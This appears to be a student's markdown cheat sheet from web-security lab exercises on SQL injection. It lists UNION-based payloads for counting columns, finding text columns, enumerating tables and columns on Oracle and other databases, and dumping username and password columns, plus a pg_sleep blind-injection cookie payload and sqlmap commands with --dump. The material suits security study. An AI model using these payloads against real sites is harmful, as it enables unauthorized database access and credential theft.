 ### 1. SQL Injection UNION attack, determining the no of column

- __normal get request__
  - __`GET /filter?catergory=Gifts`__

- __check whether sql injection present or not__
  - __`GET /filter?catergory=Gifts'`__

- __Use UNION__
  - __`GET /filter?catergory=Gifts'+UNION+SELECT+NULL--`__
  - __If still is show the same error that means there is more than one column__
  - __Try to add more NULL__
  - __`GET /filter?catergory=Gifts'+UNION+SELECT+NULL,NULL,NULL--`__



### 2. SQL Injection UNION attak, finding a column containing text

- __normal get request__
  - __`GET /filter?catergory=Pets`__


- __check whether sql injection present or not__
  - __`GET /filter?catergory=Pets'`__


- __Use UNION__
  - __`GET /filter?catergory=Pets'+UNION+SELECT+NULL--`__
  - __If still is show the same error that means there is more than one column__
  - __Try to add more NULL__
  - __`GET /filter?catergory=Gifts'+UNION+SELECT+NULL,NULL,NULL--`__

- __Now you found there are three column__
  - __so now you need to find which of the column have string__
  - __`GET /filter?catergory=Gifts'+UNION+SELECT+'admin',NULL,NULL--`__
  - __If you are getting error then the column is not a string then go and test for the remaining colums__
  - > __Note: what string you are replacing by NULL the string definetly should be present in the column__


### 3. SQL Injection UNION Attack, retrieving multiple values in a single column

- __normal get request__
  - __`GET /filter?catergory=Pets`__


- __check whether sql injection present or not__
  - __`GET /filter?catergory=Pets'UNION+SELECT+NULL,NULL,username||'~'||password+FROM+users--`__




## 5. non-Oracle databases

- __'+UNION+SELECT+NULL,NULL--__

- __Checking if any of them holds string data__
  - __`'+UNION+SELECT+'abc','def'--`__
  - __If the abc and def reflect in the page means the two columns hold string__


- __Getting the table name__
  - __`'+UNION+SELECT+table_name,NULL+FROM+information_schema.tables--`__

- __Extracting the column names from a table(users_kwechv)__
  - __`'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users_kwechv'--`__


- __Extracting the data from the two columns (1.username_ygmrlj, 2.password_jiuphc) from table(users_kwechv)__
  - __`'+UNION+SELECT+username_ygmrlj,+password_jiuphc+FROM+users_kwechv--`__



## 6. Oracle databases

- __`'+UNION+SELECT+NULL,NULL--`__

- __Checking if any of them holds string data__
  - __`'+UNION+SELECT+'abc','def'+FROM+dual--`__
  - __If the abc and def reflect in the page means the two columns hold string__


- __Getting the table name__
  - __`'+UNION+SELECT+table_name,NULL+FROM+all_tables--`__

- __Extracting the column names from a table(USERS_RDINGX)__
  - __`'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_RDINGX'--`__


- __Extracting the data from the two columns (1.username_ygmrlj, 2.password_jiuphc) from table(USERS_RDINGX)__
  - __`'+UNION+SELECT+username_ygmrlj,+password_jiuphc+FROM+USERS_RDINGX--`__

## Blind SQL injection with time delays

- __`cookie: TrackingId=x'||pg_sleep(10);`__

# SQLmap

- __`sqlmap -u '<url>' --cookie='Trackingid=<id_value>; session=<value>' --level2`__
  - __if you dont the database name just run the above commands__

- __`sqlmap -u '<url>' --cookie='Trackingid=<id_value>; session=<value>' --level2 --dbms=postgreSQL --dump --threads=5`__


#  Types of database

- __1. Oracle__
- __2. Microsft__
- __3. PostgreSQL__
- __4. MySQL__


### Database comments
- __1. Oracle      | `--comment`__
- __2. Microsft    | `--comment or /*comment*/`__
- __3. PostgreSQL  | `--comment or /*comment*/`__
- __4. MySQL       | `#comment or -- comment or /*comment*/`__


### Database version
- __1. Oracle      | `SELECT banner FROM v$version or SELECT version FROM v$instance`__
- __2. Microsft    | `SELECT @@version`__
- __3. PostgreSQL  | `SELECT version()`__
- __4. MySQL       | `SELECT @@version`__













